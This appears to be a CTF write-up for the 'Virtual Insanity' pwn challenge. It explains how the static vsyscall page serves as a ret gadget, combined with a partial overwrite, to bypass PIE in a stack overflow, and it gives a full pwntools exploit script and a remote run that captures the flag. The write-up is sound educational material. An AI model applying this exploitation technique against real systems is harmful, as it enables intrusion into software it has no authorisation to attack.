 ---
title: "[WRITE UP] - TRX CTF 2025"
description: 'Another great CTF with solid pwn challenges—managed to solve one, and this write-up covers that. I’ll be updating as I explore more, while sharpening my ASM and reversing skills.'
date: 2025-03-13
tags: ['2025', 'WriteUp', 'PWN']
authors: ['K.']
draft: false
---

# Virtual Insanity

## Description

Dancing, Walking, Rearranging Furniture

DISCLAIMER: This challenge doesn't require brute-forcing

## Analysis

First, we will need to use `checksec` to know what `security method` is applied to this binary

```sh
[*] '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

So we can see that the binary has `PIE` and no `Canary`, dive into the source code we know that there is a `win` function which we can let the program return to after finishing the `main` function

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

But the problem here is this binary has `PIE`, and there is no way for us to `ret2win` in a manual way, how about `Stack Pivot`? Still no because the `puts` function is above `read` function and there is `FULL RELRO` so this is impossible to leak the address too. We can think of `Partial Overwrite`, but this way is still impossible because the `main` function calls first, and when it returns, it will return to the function that called it (as known as `__libc_start_call_main()`) to exit.

![alt text](../../img/TRC_CTF/image-1.png)

It feels pretty hopeless because there's no way to exploit it huh? But once we look carefully we know that there is `vsyscall` mapping page. The `vsyscall` partition is only visible when we enable `emulate` mode for the kernel.

For `wsl2` we can reconfigure the `.wslconfig` file to make it visible to us

```sh
[wsl2]

processors=2

kernelCommandLine = vsyscall=emulate

[experimental]
sparseVhd=true
```

And for `Ubuntu` we can use
```sh
cat /proc/self/maps | grep vsyscall
echo 'GRUB_CMDLINE_LINUX_DEFAULT="vsyscall=emulate"' >> /etc/default/grub
update-grub
reboot
```

And when we finish and check `vmmap` again we can see it

![alt text](../../img/TRC_CTF/image.png)

By reading this [article](https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-3.html), we can understand the purpose and functionality of `vsyscall` and `vDSO`. In short, `vsyscall` (`virtual system call`) is a mechanism in the Linux kernel designed to speed up certain system calls. The kernel maps a special memory page into user space, which contains predefined variables and implementations of specific system calls. One notable characteristic of `vsyscall` is that its address is `static`, meaning it is not affected by `PIE`. And as we can see in `__vsyscall_page` symbol which is defined in [vsyscall_emu_64.S](https://codebrowser.dev/linux/linux/arch/x86/entry/vsyscall/vsyscall_emu_64.S.html)

```S
__vsyscall_page:
    mov $__NR_gettimeofday, %rax
    syscall
    ret

    .balign 1024, 0xcc
    mov $__NR_time, %rax
    syscall
    ret

    .balign 1024, 0xcc
    mov $__NR_getcpu, %rax
    syscall
    ret
```

We can see that certain system calls (`gettimeofday`, `time`, `getcpu`) are implemented within the `vsyscall` page, each containing a `ret` instruction. The starting address of the `vsyscall` page is always `0xffffffffff600000`, as it remains static. Because of this, `glibc` knows the exact addresses of all virtual system call handlers. These addresses are defined in the `glibc` source code as follows:

```c
#define VSYSCALL_ADDR_vgettimeofday   0xffffffffff600000
#define VSYSCALL_ADDR_vtime           0xffffffffff600400
#define VSYSCALL_ADDR_vgetcpu         0xffffffffff600800
```

All virtual system call requests are handled within the `__vsyscall_page`, using an offset based on `VSYSCALL_ADDR_vsyscall_name`. The system call number is placed into the `rax` register, and then the native `syscall` instruction for `x86_64` is executed.

## Exploit Development

So with that information about `vsyscall` we can easily take advantage of the `ret` instruction, to let the program return to `rsp+0x10` (in case we stopped at main `ret`)

```sh
00:0000│ rsp 0x7fffffffdc38 —▸ 0x7ffff7dabd90 (__libc_start_call_main+128) ◂— mov edi, eax
01:0008│     0x7fffffffdc40 ◂— 0
02:0010│     0x7fffffffdc48 —▸ 0x5555555551da (main) ◂— endbr64
03:0018│     0x7fffffffdc50 ◂— 0x1ffffdd30
04:0020│     0x7fffffffdc58 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
05:0028│     0x7fffffffdc60 ◂— 0
06:0030│     0x7fffffffdc68 ◂— 0xacb58eb5d2e91dc3
07:0038│     0x7fffffffdc70 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
```


So our exploit will look like this:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b*main+109
        c
        '''.format(**locals()), *a, **kw, env={"FLAG": r"TRX{example_flag}"})
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw, env={"FLAG": r"TRX{example_flag}"})

p = start()

# ==================== EXPLOIT ====================

'''
0xffffffffff600000 0xffffffffff601000 r-xp     1000      0 [vsyscall]

0xffffffffff600000               mov    rax, 0x60     RAX => 0x60
0xffffffffff600007               syscall
0xffffffffff600009               ret
'''

def exploit():


  offset = 40
  vsyscall = 0xffffffffff600000

  payload = b'A' * offset
  payload += p64(vsyscall) * 2
  payload += p8(0xa9)

  s(payload)

  interactive()

if __name__ == '__main__':
  exploit()
```

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/TRX_CTF/dist
$ ./xpl.py REMOTE virtual.ctf.theromanxpl0.it 7011
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to virtual.ctf.theromanxpl0.it on port 7011: Done
[*] Switching to interactive mode
You pathetic pwners are worthless without your precious leaks!!!
IMPOSSIBLE! GRAHHHHHHHHHH
TRX{1_h0p3_y0u_d1dn7_bru73f0rc3_dc85efe0}
[*] Got EOF while reading in interactive
```
